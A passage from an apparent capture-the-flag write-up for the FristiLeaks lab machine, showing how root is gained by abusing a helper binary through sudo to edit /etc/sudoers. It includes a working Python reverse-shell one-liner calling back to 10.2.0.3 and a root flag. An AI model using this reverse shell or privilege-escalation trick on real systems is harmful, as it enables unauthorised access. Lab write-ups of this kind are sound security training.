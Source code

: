 ### Obtain root

You could just pass `/bin/bash` as an argument.
```bash
$ cd /var/fristigod/.secret_admin_stuff/
$ sudo -l
$ sudo -u fristi ./doCom "nano /etc/sudoers"
# uncomment: %wheel  ALL=(ALL)       ALL
$ sudo -u fristi ./doCom "usermod -aG wheel fristigod"
# log out/in
$ sudo -s
root# # grep -i flag /root/fristileaks_secrets.txt
Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```

Notes:
* obtain reverse shell via cronjob
* interactive shell
```bash
/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.0.3",5556));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* `sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash`

